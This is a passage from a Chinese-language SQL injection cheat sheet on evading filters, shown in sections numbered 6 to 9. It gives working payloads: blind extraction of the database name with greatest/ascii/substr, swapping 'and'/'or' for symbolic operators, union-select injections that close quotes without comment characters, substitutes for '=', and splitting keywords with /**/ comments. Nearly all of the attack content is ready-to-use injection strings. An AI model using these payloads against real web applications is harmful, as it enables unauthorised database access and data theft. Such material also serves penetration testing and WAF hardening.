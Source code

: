 ```
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64


```

使用 between and：between a and b：返回 a，b 之间的数据，不包含 b。

### 6.or and xor not 绕过

```
and=&&  or=||   xor=|   not=!


```

### 7. 绕过注释符号（#，--(后面跟一个空格））过滤

```
id=1' union select 1,2,3||'1


```

最后的 or '1 闭合查询语句的最后的单引号，或者：

```
id=1' union select 1,2,'3


```

### 8.= 绕过

使用 like 、rlike 、regexp 或者 使用 <或者>

### 9. 绕过 union，select，where 等

**（1）使用注释符绕过**

常用注释符：

```
//，-- , /**/, #, --+, -- -, ;,%00,--a


```

用法：

```
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user


```

**（2）使用大小写绕过**
